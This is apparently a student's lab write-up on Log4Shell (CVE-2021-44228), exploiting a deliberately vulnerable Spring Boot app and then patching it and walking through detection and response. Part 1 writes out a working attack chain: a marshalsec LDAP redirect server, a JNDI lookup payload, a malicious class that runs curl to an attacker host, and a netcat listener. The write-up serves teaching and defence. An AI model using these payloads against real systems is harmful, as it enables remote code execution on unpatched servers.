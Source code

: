 # Week9: Log4Shell Vulnerability Homework

## Introduction 
This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
### HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

### LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

To do this, we need to:
- Replace vulnerable LogController.java with patched/LogController.java.
- Upgrade log4j version to 2.17.0 in pom.xml.
- 
before: ![image](https://github.com/user-attachments/assets/70fa2a88-26a0-4531-af5c-fcfacad41415)

after: ![image](https://github.com/user-attachments/assets/cc7b0dfe-1943-4a31-a93d-7d90533207ea) 

- Rebuild and restart: the result is as follow: ![image](https://github.com/user-attachments/assets/e8071e43-2160-4ec0-a7a5-b6e1f92bf70f)

That confirms the patch is working; the pdated application successfully blocked the Log4Shell exploit attempt.
What Just Happened: we sent the malicious payload {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"} ; The updated LogController.java now includes input validation that detects and blocks JNDI injection attempts and the app returned: Blocked suspicious input!

Testing with normal input returns Logged: Hello World!

![image](https://github.com/user-attachments/assets/4204f54e-a58b-45e4-8ab9-7082524fbea8)

  


## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces: docker logs $(docker ps -qf "name=app") 2>&1 | grep jndi
![image](https://github.com/user-attachments/assets/e4351711-9a18-4c52-832a-02a0572a6bd1)

 This returned nothing, which is good sign, because we are currently running the patched app; it also means the patched application successfully blocked the malicious input and did not log or process the ${jndi:...} payload.


- Contain: Vulnerable container stopped
  If we were running the unpatched app, it would have been good to contain the vulnerable container by running: docker-compose down
  
- Eradicate: Patched container deployed; here we have to ensure that patched code is deployed. We did this on part2
  
- Recover: System restored with mitigation verified; this consists of restart and test with clean input: docker-compose up --build -d
This was also done in part2

---

## Conclusion and Lessons Learned

Working through the Log4Shell vulnerability really drove home some key points about building secure software. It's easy to forget about things like logging libraries (like Log4j), but they're definitely part of what attackers can target. As we saw, just one little piece of data that's not handled correctly can open the door for someone to run code remotely if the logging system has a flaw. This really shows why it's so important to keep all our software up to date and to know what the third-party tools we're using actually do.

Plus, it's clear that we absolutely have to check everything that comes into our applications, even if it's going to internal parts. The fixed version we looked at successfully stopped malicious attacks just by cleaning up the input it received, proof that even simple checks can make a big difference!

Lastly, tools like MITRE ATT&CK and D3FEND give us a great way to think about security throughout the whole lifecycle, from finding weaknesses to fixing them and responding if something happens. They're super helpful for anyone working in cybersecurity today. This whole exercise really reinforces that being proactive with our defenses, having a good understanding of how our systems are put together, and constantly keeping an eye on things are crucial for keeping our systems secure


---

## References

- homework9 video: https://youtu.be/ptPj2rwUUws
- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

